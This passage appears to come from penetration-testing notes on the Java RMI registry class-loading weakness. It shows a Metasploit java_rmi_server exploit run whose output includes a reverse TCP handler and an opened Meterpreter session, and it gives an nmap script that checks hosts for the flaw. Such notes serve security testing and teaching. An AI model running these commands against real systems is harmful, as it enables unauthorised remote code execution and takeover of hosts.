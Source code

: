     use exploit/multi/misc/java_rmi_server

Sample Output
```
    use exploit/multi/misc/java_rmi_server
    msf exploit(java_rmi_server) > set rhost 192.168.xx.xx
    rhost => 192.168.xx.xx
    msf exploit(java_rmi_server) > run

    [*] Started reverse TCP handler on 192.168.xx.xx:4444
    [*] Using URL: http://0.0.xx.xx:8080/LAWVrAFTItH7N
    [*] Local IP: http://192.168.xx.xx:8080/LAWVrAFTItH7N
    [*] Server started.
    [*] 192.168.xx.xx:1099 - Sending RMI Header...
    [*] 192.168.xx.xx:1099 - Sending RMI Call...
    [*] 192.168.xx.xx     java_rmi_server - Replied to request for payload JAR
    [*] Sending stage (45741 bytes) to 192.168.xx.xx
    [*] Meterpreter session 1 opened (192.168.xx.xx:4444 -> 192.168.7.87:3899) at 2016-05-03 18:24:53 +0530
    [-] Exploit failed: RuntimeError Timeout HTTPDELAY expired and the HTTP Server didn't get a payload request
    [*] Server stopped.
```
Here’s a video of Mubix exploiting it from Metasploit Minute <a href="https://hak5.org/episodes/metasploit-minute/exploitation-using-java-rmi-service-metasploit-minute" class="reference external">Exploitation using java rmi service</a>

## Nmap

### rmi-vuln-classloader

<a href="https://nmap.org/nsedoc/scripts/rmi-vuln-classloader.html" class="reference external">rmi-vuln-classloader.nse</a> Tests whether Java rmiregistry allows class loading. The default configuration of rmiregistry allows loading classes from remote URLs, which can lead to remote code execution. The vendor (Oracle/Sun) classifies this as a design feature.

Sample Output:

    nmap --script=rmi-vuln-classloader -p 1099 192.168.xx.xx

    Starting Nmap 7.01 (https://nmap.org) at 2016-05-04 00:04 IST
    Nmap scan report for 192.168.xx.xx
    Host is up (0.0011s latency).
    PORT     STATE SERVICE
    1099/tcp open  rmiregistry
    | rmi-vuln-classloader:
    |   VULNERABLE:
    |   RMI registry default configuration remote code execution vulnerability
    |     State: VULNERABLE
    |       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
    |
    |     References:
    |_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_rmi_server.rb
    Nmap done: 1 IP address (1 host up) scanned in 0.37 seconds
